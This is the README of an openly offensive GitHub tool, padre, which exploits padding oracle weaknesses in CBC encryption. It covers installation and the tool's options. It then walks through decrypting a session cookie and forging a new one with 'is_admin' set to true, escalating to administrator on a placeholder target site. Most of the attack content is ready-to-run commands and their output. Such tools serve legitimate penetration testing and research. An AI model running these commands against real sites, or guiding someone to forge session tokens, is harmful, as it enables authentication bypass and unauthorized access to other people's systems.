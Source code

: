 ![](https://img.shields.io/github/go-mod/go-version/glebarez/padre) ![Publish release](https://github.com/glebarez/padre/workflows/Publish%20release/badge.svg) ![](https://img.shields.io/codecov/c/github/glebarez/padre/master)

# padre
***padre*** is an advanced exploiter for Padding Oracle attacks against CBC mode encryption

Features:
- blazing fast, concurrent implementation
- decryption of tokens
- encryption of arbitrary data
- automatic fingerprinting of padding oracles
- automatic detection of cipher block length
- HINTS! if failure occurs during operations, padre will hint you about what can be tweaked to succeed
- supports tokens in GET/POST parameters, Cookies
- flexible specification of encoding rules (base64, hex, etc.)

## Demo

![demo](assets/demo.gif )

## Installation/Update
```console
go get -u github.com/glebarez/padre
```

## Usage scenario
If you find a suspected padding oracle, where the encrypted data is stored inside a cookie named SESS, you can use the following:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' 'Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg=='
```
padre will automatically fingerprint HTTP responses to determine if padding oracle can be confirmed. If server is indeed vulnerable, the provided token will be decrypted into something like:
```json
 {"user_id": 456, "is_admin": false}
```
It looks like you could elevate your privileges here!

You can attempt to do so by first generating your own encrypted data that the oracle will decrypt back to some sneaky plaintext:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' -enc '{"user_id": 456, "is_admin": true}'
```
This will spit out another encoded set of encrypted data, perhaps something like below (if base64 used):
```text
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```
Now you can open your browser and set the value of the SESS cookie to the above value. Loading the original oracle page, you should now see you are elevated to admin level.

## Impact of padding Oracles
- disclosing encrypted session information
- bypassing authentication
- providing fake tokens that server will trust
- generally, broad extension of attack surface

## Full usage options
```
Usage: padre [OPTIONS] [INPUT]

INPUT: 
	In decrypt mode: encrypted data
	In encrypt mode: the plaintext to be encrypted
	If not passed, will read from STDIN

	NOTE: binary data is always encoded in HTTP. Tweak encoding rules if needed (see options: -e, -r)

OPTIONS:

-u *required*
	target URL, use $ character to define token placeholder (if present in URL)

-enc
	Encrypt mode

-err
	Regex pattern, HTTP response bodies will be matched against this to detect padding oracle. Omit to perform automatic fingerprinting

-e
	Encoding to apply to binary data. Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-r
	Additional replacements to apply after encoding binary data. Use odd-length strings, consiting of pairs of characters <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~', then use -r "/!+-=~"

-cookie
	Cookie value to be set in HTTP requests. Use $ character to mark token placeholder.

-post
	String data to perform POST requests. Use $ character to mark token placeholder. 

-ct
	Content-Type for POST requests. If not specified, Content-Type will be determined automatically.
	
-b
	Block length used in cipher (use 16 for AES). Omit to perform automatic detection. Supported values:
		8
		16 *default*
		32

-p
	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy
	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP
```

## Further read
- https://blog.skullsecurity.org/2013/a-padding-oracle-example
- https://blog.skullsecurity.org/2016/going-the-other-way-with-padding-oracles-encrypting-arbitrary-data

## Alternative tools
- https://github.com/liamg/pax
- https://github.com/AonCyberLabs/PadBuster